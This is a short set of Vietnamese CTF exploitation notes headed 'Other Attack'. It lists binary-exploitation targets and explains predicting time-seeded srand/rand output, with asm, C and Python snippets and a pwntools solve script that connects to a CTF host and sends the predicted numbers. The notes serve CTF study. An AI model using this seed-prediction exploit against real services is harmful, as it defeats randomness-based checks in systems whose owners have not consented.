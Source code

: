 # Other Attack

- &environ
- fini_array
- rtld_global
- OTHER LOGIC BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```asm
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```

    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
```python
#!/usr/bin/env python3
from pwn import *
import random
import time
import calendar
import datetime
from ctypes import *
import random
elf = ELF("./random")
libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
# p = elf.process()
p = remote("challs.tfcctf.com", "32615")
context.update(binary=elf, log_level="DEBUG")
# gdb.attach(p, '''
# 	b *vuln
# 	''')

current_GMT = time.gmtime()
time_stamp = calendar.timegm(current_GMT)
libc.srand(time_stamp)
print(p.recvline())
for i in range(10):
    number = libc.rand()
    p.sendline(str(number).encode())


p.interactive()
```

